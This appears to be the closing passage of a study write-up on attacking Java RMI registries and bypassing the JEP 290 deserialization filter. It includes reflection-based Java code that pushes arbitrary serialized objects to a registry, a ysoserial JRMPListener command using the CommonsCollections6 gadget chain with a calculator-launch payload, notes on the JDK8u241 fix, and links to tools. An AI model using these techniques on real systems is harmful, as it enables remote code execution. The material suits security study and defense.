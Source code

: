 ```java
        ref_filed.setAccessible(true);
        UnicastRef ref = (UnicastRef) ref_filed.get(registry);

        Field operations_filed = RegistryImpl_Stub.class.getDeclaredField("operations");
        operations_filed.setAccessible(true);
        Operation[] operations = (Operation[]) operations_filed.get(registry);

        RemoteCall remoteCall = ref.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
        ObjectOutput outputStream = remoteCall.getOutputStream();

        Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
        enableReplace_filed.setAccessible(true);
        enableReplace_filed.setBoolean(outputStream, false);

        outputStream.writeObject(name);
        outputStream.writeObject(obj);

        ref.invoke(remoteCall);
        ref.done(remoteCall);
    }
}
```

 - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![](./images/56.png)

### Fixed
`JDK8u241` class that declares the method to be called in `RemoteObjectInvocationHandler#invokeRemoteMethod` must implement the `Remote` interface, while the `RMIServerSocketFactory` class does not implement the interface, so an exception will be thrown directly and cannot be called.

![](./images/57.png)

# refer to
 - [Archive JEP 290](https://paper.seebug.org/1689/)

 - [Analysis and Bypass of RMI-JEP290](https://www.anquanke.com/post/id/259059)

 - [The end of deserialization vulnerability? Research on the mechanism of JEP290](https://paper.seebug.org/454/)

 - [JEP 290: Filter Incoming Serialization Data](https://openjdk.java.net/jeps/290)

# tool
When I was studying, I searched for the ready-made `ysoserial` package for a long time. I latched a `ysoserial` download link (I hope I won't send it) for easy use during subsequent study and review.
 - [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/)

In the bypass method of attacking the `RMI` server analyzed above, there are some ready-made tools on the Internet, such as:
 - [rmitast](https://github.com/STMCyber/RmiTaste)

 - [rmisout](https://github.com/BishopFox/rmiscout)